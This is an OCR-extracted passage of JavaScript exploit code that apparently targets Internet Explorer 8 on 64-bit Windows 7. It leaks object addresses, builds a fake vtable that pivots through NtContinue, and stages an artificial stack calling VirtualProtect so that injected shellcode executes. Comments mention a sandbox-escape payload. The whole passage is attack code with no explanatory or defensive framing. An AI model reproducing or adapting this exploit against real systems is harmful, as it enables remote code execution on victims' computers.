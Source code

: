         var FakeVtable = CreateFakeVtable(NtContinueAddress);
        FakeVtable = FakeVtable.substr(0, FakeVtable.length);
        var FakeVtableAddress = LeakObjectAddress64(LeakedVvalAddress, FakeVtable);
        var MutableVarAddress = MakeQword(LeakedVvalAddress.high, LeakedVvalAddress.low + 0x40);
        var FakeObjAddress = MakeQword(LeakedVvalAddress.high, LeakedVvalAddress.low + 96);
        var Context;

        if(PayloadType == "shellcode") {
            // Allocate memory for shellcode, API output and an artificial stack

            var ShellcodeStr = TableToUnicode(Shellcode);
            var ShellcodeLen = MakeQword(0, (ShellcodeStr.length * 2));
            ShellcodeStr = ShellcodeStr.substr(0, ShellcodeStr.length); // This trick is essential to ensure the "address of" primitive gets the actual address of the shellcode data and not another VAR in a chain of VARs (this happens when a VAR is appended to another repeaatedly as is the case here)
            var ShellcodeAddress = LeakObjectAddress64(LeakedVvalAddress, ShellcodeStr);

            /*
            Artificial stack data for use beyond the NTDLL.DLL!NtContinue pivot.


            NTDLL.DLL!NtContinue --------------------> RIP = <MSVCRT.DLL!0x00019baf> | MOV RSP, R11; RET
                                                       RCX = Shellcode address
                                                       RDX = Shellcode size
                                                       R8 = 0x40
                                                       R9 = Leaked address of BSTR to hold out param
                                                       RSP = Real stack pointer
                                                       R11 = Artificial stack
            |-----------------------------|            ^
            | 2MB stack space (heap)      |            |
            |-----------------------------|            |
            | Heap header/BSTR len align  |            |
            |-----------------------------|            |
            | KERNEL32.DLL!VirtualProtect | <----------|
            |-----------------------------|
            | Shellcode return address    ]
            |-----------------------------|
            */

            var Padding = Array(0x100000 + 1).join('\u0101'); // The +1 here always gives it a clean len (used to be -1)
            var ArtificialStackStr = Padding; // A couple KB were never enough, even for VirtualProtect and WinExec. The WPAD RPC client shellcode for sandbox escape is exceptionally consumptive with stack memory.
            ArtificialStackStr += DwordArrayToBytes([VirtualProtectAddress.low]);
            ArtificialStackStr += DwordArrayToBytes([VirtualProtectAddress.high]);
            ArtificialStackStr += DwordArrayToBytes([ShellcodeAddress.low]);
            ArtificialStackStr += DwordArrayToBytes([ShellcodeAddress.high]);
            ArtificialStackStr = ArtificialStackStr.substr(0, ArtificialStackStr.length);
            var ArtificialStackAddress = LeakObjectAddress64(LeakedVvalAddress, ArtificialStackStr);
            ArtificialStackAddress.low += ((ArtificialStackStr.length * 2) - 0x10); // Point RSP at the return address to the shellcode. The address consistently ends up an 0x8 multiple on Windows 7 IE8 64-bit. Stack overfloow exceptions were becoming an issue when I did not include this tail padding.

            var WritableStr = "";
            WritableStr += DwordArrayToBytes([0]);
            WritableStr = WritableStr.substr(0, WritableStr.length);
            var WritableAddress = LeakObjectAddress64(LeakedVvalAddress, WritableStr);
